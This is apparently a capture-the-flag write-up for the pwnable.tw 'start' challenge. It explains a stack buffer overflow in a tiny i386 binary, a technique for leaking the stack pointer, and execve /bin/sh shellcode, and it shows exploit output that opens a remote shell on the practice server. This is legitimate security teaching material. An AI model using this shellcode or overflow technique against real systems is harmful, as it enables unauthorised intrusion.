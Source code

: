 # pwnable.tw - start
_Writeup by Zander Work_

Tl;dr buffer overflow to control `eip`, leak `esp`, and jump to shellcode

This binary is very small, and comes in at 564 bytes. The only function we care about is `_start`:
```asm
Dump of assembler code for function _start:
   0x08048060 <+0>:	push   %esp
   0x08048061 <+1>:	push   $0x804809d
   0x08048066 <+6>:	xor    %eax,%eax
   0x08048068 <+8>:	xor    %ebx,%ebx
   0x0804806a <+10>:	xor    %ecx,%ecx
   0x0804806c <+12>:	xor    %edx,%edx
   0x0804806e <+14>:	push   $0x3a465443
   0x08048073 <+19>:	push   $0x20656874
   0x08048078 <+24>:	push   $0x20747261
   0x0804807d <+29>:	push   $0x74732073
   0x08048082 <+34>:	push   $0x2774654c
   0x08048087 <+39>:	mov    %esp,%ecx
   0x08048089 <+41>:	mov    $0x14,%dl
   0x0804808b <+43>:	mov    $0x1,%bl
   0x0804808d <+45>:	mov    $0x4,%al
   0x0804808f <+47>:	int    $0x80
   0x08048091 <+49>:	xor    %ebx,%ebx
   0x08048093 <+51>:	mov    $0x3c,%dl
   0x08048095 <+53>:	mov    $0x3,%al
   0x08048097 <+55>:	int    $0x80
   0x08048099 <+57>:	add    $0x14,%esp
   0x0804809c <+60>:	ret
```

Here's what the function does:
 1. Save `esp` and return address
 2. Clear registers
 3. Build the string `Let's start the CTF:` on the stack
 4. Setup arguments for write syscall
 5. Make the syscall: `write(1, %esp, 20)`
    - `esp` points to the string "Let's start the CTF:"
 6. Setup arguments for read syscall
 7. Make the syscall: `read(0, %esp, 60)`
 8. Reset stack and return

There's a pretty obvious buffer overflow vulnerability in this binary. There are 20 bytes allocated in the function for the string "Let's start the CTF:", and the read syscall gets 60 bytes.

Let's check the security protections of the binary:
```
$ checksec start
[*] '/Users/zander/sec/pwnable.tw/start/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

We see that NX is not enabled, so we can put shellcode on the stack and jump to it. However, we need to figure out where our shellcode is so we can jump to it.

Let's look at the layout of the stack write before the `read` system call:
```
+---------------+
|      esp      |
+---------------+
|    ret addr   |
+---------------+
|     "CTF:"    |
+---------------+
|     "the "    |
+---------------+
|     "art "    |
+---------------+
|     "s st"    |
+---------------+
|     "Let'"    |
+---------------+
```

Let's say we input "asdf\n" to the write system call. The stack would then look like this:
```
+---------------+
|      esp      |
+---------------+
|    ret addr   |
+---------------+
|     "CTF:"    |
+---------------+
|     "the "    |
+---------------+
|     "art "    |
+---------------+
|     "\n st"   |
+---------------+
|     "asdf"    |
+---------------+
```

With this, we are easily able to overwrite the return address. But how can we get esp?

Since PIE is disabled, we know the addresses of the code. Therefore, we can jump back into `_start` and read 20 more bytes. By jumping to `0x8048087`, we can setup another write system call to get another 20 bytes off the stack:
```
+---------------+
|      ????     |
+---------------+
|      ????     |
+---------------+
|      ????     |
+---------------+
|      ????     |
+---------------+
|      ????     |
+---------------+
|      ????     |
+---------------+
|      esp      |
+---------------+
```

Once we get to the read system call again, we can put the correct address for where our shellcode will be, and pop a shell.

Here's the shellcode I used:
```asm
xor %eax, %eax
mov $0x0b, %al
xor %ecx, %ecx
xor %edx, %edx
push %edx
push $0x68732f6e
push $0x69622f2f
mov %esp, %ebx
int $0x80
```

With that, we can get a shell on the remote system:
```
$ ./exploit.py
[+] Opening connection to chall.pwnable.tw on port 10000: Done
[*] leaked esp: 0xffb68210
[*] Switching to interactive mode
$ id
uid=1000(start) gid=1000(start) groups=1000(start)
```